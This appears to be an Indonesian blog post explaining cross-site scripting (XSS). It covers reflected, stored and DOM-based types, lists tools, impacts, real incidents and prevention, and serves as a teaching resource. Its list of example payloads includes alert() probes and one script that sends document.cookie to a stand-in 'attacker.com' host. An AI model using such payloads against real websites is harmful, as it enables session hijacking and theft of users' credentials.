 ```yaml
---
title: "Mengenal Serangan Cross-Site-Scripting (XSS) pada Website"
pubDate: 2022-07-05T08:36:28.798+0700
updatedDate: 2022-07-05T08:36:28.798+0700
categories: [""]
tags: ["xss-attack", "cross-site-scripting"]
heroImage:
    image: ../../assets/d23309750e10/06QYOVknjvvwFBtZd.png
externalPost: https://tridims.medium.com/mengenal-serangan-cross-site-scripting-xss-pada-website-d23309750e10
description: |
    **TL;DR:** *XSS adalah serangan injeksi skrip pada sisi klien yang memungkinkan penyerang menjalankan kode berbahaya di browser korban untuk mencuri data, mengambil alih sesi, atau menyebarkan malware.*

    **Apa itu XSS?**  
    XSS (Cross‑Site Scripting) adalah serangan yang memasukkan skrip berbahaya ke halaman web atau aplikasi web yang dipercaya. Skrip ini dieksekusi di browser korban ketika input pengguna ditampilkan tanpa validasi atau sanitasi yang tepat.

    **Jenis‑jenis XSS**
    - **Reflected XSS (Non‑Persistent)** — skrip dikirim sebagai bagian dari request dan segera dipantulkan ke korban; sering dipakai lewat link jahat.
    - **Stored XSS (Persistent)** — skrip disimpan di server (mis. database, log, forum) dan dieksekusi setiap kali konten tersebut diload; *paling berbahaya*.
    - **DOM‑based XSS** — skrip dimasukkan dan dirender lewat manipulasi DOM (mis. fragment URL), tanpa perubahan pada server.

    **Contoh payload singkat**
    - `"<script>alert(1)</script>"`
    - `<body onload=alert('test')>`
    - `<img src="x" onerror=alert(document.cookie)>`

    **Alat yang sering dipakai**
    - XSSer, XSStrike, Shuriken, Xsscrapy, KNOXSS, BeEF

    **Dampak**
    XSS dapat menyebabkan pencurian cookie/kredensial, sesi dibajak, distribusi phishing/malware, dan manipulasi konten. Stored XSS biasanya berdampak paling parah.

    **Pencegahan ringkas**
    - *Validasi* dan *sanitasi* semua input pengguna  
    - *Escape/encode* output sesuai konteks (HTML, attribute, JS, URL)  
    - Terapkan header keamanan (Content Security Policy, X‑Content‑Type‑Options, dll.)  
    - Praktik secure‑coding dan pemeriksaan keamanan (pengetesan & scanning)

    ---
---
```


Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.

![](../../assets/d23309750e10/06QYOVknjvvwFBtZd.png)

Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**

![](../../assets/d23309750e10/0gUkkfV45hnLz1pwk.png)

Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)

![](../../assets/d23309750e10/0KzrA1xdgIOheKLCM.png)

Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS

![](../../assets/d23309750e10/0nNN6uGtGenAX9dp.png)

Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu `http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\`.

**Contoh XSS Script**

-   `<script>…</script>`
-   `\<body onload=alert\(‘test1’\)\>`
-   `\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>`
-   `\<img src=”http://url\.to\.file\.which/not\.exist" onerror=alert\(document\.cookie\);\>`
-   `\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>`

**Tools yang dapat digunakan untuk melakukan XSS**

-   Framework XSS Scanner, ada beberapa contoh aplikasi
-   XSSer
-   XSStrike
-   Shuriken
-   Xsscrapy
-   KNOXSS
-   Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**

Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
